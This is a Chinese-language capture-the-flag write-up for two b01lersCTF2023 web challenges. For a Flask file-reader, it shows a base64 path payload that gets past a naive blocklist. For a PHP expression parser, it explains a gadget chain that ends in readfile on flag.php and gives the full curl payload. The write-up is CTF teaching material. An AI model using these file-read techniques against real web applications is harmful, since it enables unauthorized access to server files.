 ```yaml
---
title: "b01lersCTF2023 Wp"
slug: "b01lersctf2023-wp"
description: "论我是怎么被php.galf笑死的"
date: 2023-03-20T23:55:05+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


https://ctf.b01lers.com/challenges?category=web

## warmup

> My first flask app, I hope you like it
> [http://ctf.b01lers.com:5115](http://ctf.b01lers.com:5115/)
> Author: CygnusX

```python
from base64 import b64decode

import flask

app = flask.Flask(__name__)


@app.route('/')
def index2(name):
    name = b64decode(name)
    if (validate(name)):
        return "This file is blocked!"
    try:
        file = open(name, 'r').read()
    except:
        return "File Not Found"
    return file


@app.route('/')
def index():
    return flask.redirect('/aW5kZXguaHRtbA==')


def validate(data):
    if data == b'flag.txt':
        return True
    return False


if __name__ == '__main__':
    app.run()

```

payload: http://ctf.b01lers.com:5115/Li9mbGFnLnR4dA==

`bctf{h4d_fun_w1th_my_l4st_m1nut3_w4rmuP????!}`

## php.galf

> found one of my old projects, but I can't seem to figure out how it works... tried to update it but that might have backfired :(
> note: this is using php 7.4
> [http://ctf.b01lers.com:5120](http://ctf.b01lers.com:5120/)
> Author: CygnusX

![image-20230318224145644](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230318224145644.png)

结合flag.php的存在，应该是需要我们读出源码，可以用readfile

![image-20230318224316180](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230318224316180.png)

功能上是一个parser，对输入进行运算，简单审一下 会发现sink点应该在这里

![image-20230318230157875](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230318230157875.png)

然后就要看怎么触发这个`__toString`了。——但是吧，这个题只适合倒着从payload讲链子 >_<

```
readfile('flag.php');
noitpecxe-> __toString
noitpecxe-> __consturct
syntaxreader-> __construct
orez_vid-> __invoke
orez_vid-> __construct
orez_dda-> __invoke
orez_dda-> __construct
```

巧妙之处在于这个parser对于操作数和参数的处理近似于“递归”

![image-20230320233055633](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230320233055633.png)

![image-20230320233015928](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230320233015928.png)

每读到一个ohce都会`new ohce()`实例并调用它的invoke，并在其中继续向后找一位参数，如果是`orez_lum`或`orez_dda`中的一个就继续`new xxx()`并调用invoke，而这个orez_dda的invoke也是类似的操作

![image-20230320233521553](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230320233521553.png)

我们下一个调用的类用orez_vid，让它的下一个参数是syntaxreader

![image-20230320233751504](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230320233751504.png)

这样传入syntaxreader就会触发noitpecxe

![image-20230320234050894](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230320234050894.png)

![image-20230320234131363](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230320234131363.png)

给noitpecxe传进去的args有7个，但是construct只要4个，用这个缺口 我们把第1个和第4个参数分别设成flag.php和readfile，就自然会变成这里的message和error_func

之后就没什么可说的了，顺利调用readfile，getflag~

payload:

```bash
curl 'http://ctf.b01lers.com:5120/index.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: DEBUG[]=0' --data-raw 'code=ohce+ohce+ohce+ohce+ohce&args=flag.php%2C+bbbbb%2C+ccccc%2C+readfile%2C+orez_dda%2C+orez_vid%2C+syntaxreader'
```

![image-20230320235216149](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230320235216149.png)

*另：虽然我上面说的好像这个过程很简单，但我调了半天才理清楚……我tcl……

*另另：究极冷笑话之：ohce-> echo, noitpecxe-> exception, php.galf-> flag.php, orez_vid-> div_zero, orez_dda-> add_zero……太冷了 我已经到南极了